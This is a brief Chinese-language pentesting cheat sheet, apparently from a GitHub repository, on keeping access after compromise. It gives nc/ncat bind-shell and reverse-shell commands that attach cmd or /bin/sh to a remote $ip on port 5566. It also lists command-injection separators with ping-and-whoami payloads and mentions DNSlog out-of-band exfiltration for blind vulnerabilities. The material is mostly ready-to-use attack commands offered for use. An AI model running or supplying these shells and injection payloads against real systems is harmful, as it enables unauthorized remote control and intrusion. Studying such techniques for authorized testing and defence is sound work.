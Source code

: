## 反弹SHELL

**解决数据回显&解决数据通讯**，上线后使用

一般常用nc/ncat，号称瑞士军刀，获得交互式SHELL，维持权限。防火墙开启入站策略，采用反向连接，开启出站策略，采用正向连接。

**内网**只能用**反向连接**，因为出网ip只有一个，但是一个出网ip有多台主机，连接内网ip并不能找到是哪台主机，但是内网环境的主机可以找到外网服务器，因为服务器ip唯一，可以找到。**两个内网**找中间人

```shell
//正向连接：本地监听等待对方连接
//windows -> linux
nc -e cmd -lvvp 5566
ncat $ip 5566

//linux->windows
ncat -e /bin/sh -lvvp 5566
nc $ip 5566

//反向连接：主动给出去，对方监听
//绑定CMD到目标5566端口
ncat -e /bin/sh $ip 5566
//等待5566连接
nc -lvvp 5566

//绑定CMD到目标5566端口
nc -e cmd $ip 5566
//等待5566连接
ncat -lvvp 5566
```

## 管道符

管道符：| (管道符号) ||（逻辑或） &&（逻辑与） &(后台任务符号)

Windows->| & || &&

Linux->; | || & && \``(特有``和;)

```shell
ping -c 1 127.0.0.1 ; whoami
ping -c 1 127.0.0.1 | whoami
ping -c 1 127.0.0.1 || whoami
ping -c 1 127.0.0.1 & whoami
ping -c 1 127.0.0.1 && whoami
ping -c 1 127.0.0.1 `whoami`
```



## 漏洞无回显

ping能绕过防火墙

采用DNSlog，带外查询
